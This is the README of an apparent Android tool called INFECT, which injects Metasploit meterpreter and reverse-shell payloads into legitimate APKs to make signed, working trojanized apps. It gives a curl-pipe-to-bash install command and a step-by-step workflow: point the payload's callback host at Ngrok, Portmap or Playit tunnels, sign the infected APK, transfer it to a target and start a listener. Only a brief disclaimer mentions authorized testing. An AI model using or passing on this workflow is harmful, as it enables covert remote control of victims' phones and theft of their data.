# INFECT - Advanced APK Payload Injector

![Infect Banner](infect_preview.jpg)

**INFECT** is a professional Android penetration testing tool that creates fully functional trojanized APKs with embedded Metasploit payloads while maintaining the original app's functionality.

## 🔥 Premium Features

✔ **Complete Infection Workflow**  
- Automated payload injection  
- Original functionality preservation  
- One-click listener setup  

✔ **Advanced Payload Options**  
- Meterpreter (TCP/HTTP/HTTPS)  
- Shell reverse TCP  
- Custom payload configuration  
- Automatic listener generation  

✔ **Professional Toolchain**  
- APKEditor integration  
- Multi-engine decompilation  
- Auto-signing with zipalign  

✔ **Tunnel Service Support**  
- Native Ngrok integration  
- Portmap.io compatibility  
- Playit.gg support  
- Local network testing  

## 📦 Installation

Install with one command in Termux:

```bash
curl -sL https://termuxvoid.github.io/repo/install.sh | bash && apt install infect -y
```

## 🛠️ Dependencies

Automatically installed:
- APKTool (`apktool`)
- APKEditor (`apkeditor`)
- Metasploit Framework (`msfvenom`)
- Java Signing Tools (`apksigner`, `jarsigner`, `keytool`)

## 🚀 Quick Start

1. Launch the tool:
```bash
infect
```

2. Main Menu Options:
```
[1] Bind payload to APK - Create trojanized application
[2] Start Metasploit listener - Ready-to-use handler
[3] Troubleshooting - View documentation
[4] Exit
```

## 💻 Complete Workflow Example

```bash
# Start the tool
infect

# Select option 1 (Bind payload)
# Choose target APK: /sdcard/Download/legit_app.apk
# Set LHOST: your-sub.portmap.io:54321
# Set LPORT: 4444
# Select payload type: android/meterpreter/reverse_https
# Output name: infected_app

# The tool will:
# 1. Decompile both APKs using APKEditor
# 2. Merge permissions and manifests
# 3. Inject payload smali code
# 4. Rebuild and sign the APK

# Transfer infected_app_signed.apk to target
# Start listener directly from the tool (option 2)
```

## 🎯 Advanced Features

**Integrated Metasploit Listener**
- Auto-configured handler
- Payload type matching
- Persistent session management

**Smart APK Processing**
- Automatic activity injection
- Permission analysis
- Manifest merging
- Resource preservation

**Tunnel Service Support**
```bash
Supported Formats:
- Direct IP: 192.168.1.100
- Ngrok: 0.tcp.ngrok.io:12345
- Portmap: your-sub.portmap.io:12345
- Playit: your-sub.playit.gg:12345
```

## 🧰 Technical Specifications

| Component       | Details                          |
|----------------|----------------------------------|
| Core Engine    | APKEditor + APKTool              |
| Payload System | Metasploit Framework             |
| Signing        | APKSigner + Jarsigner            |
| Compatibility  | Android 5.0+ (API 21+)           |
| Output         | Production-ready signed APK      |

## ⚠️ Legal Disclaimer

**This tool is for authorized security testing only.** Unauthorized use against systems you don't own or have explicit permission to test is illegal. The developers assume no liability for misuse.

## 📜 License

GNU General Public License v3.0

## 📬 Support

For bug reports and feature requests:  
[GitHub Issues](https://github.com/Anon4You/Infect/issues)  

For professional support and custom integrations:  
https://t.me/nullxvoid

---

**Ethical Notice:** Always obtain proper written authorization before conducting any security testing. Maintain logs of all testing activities.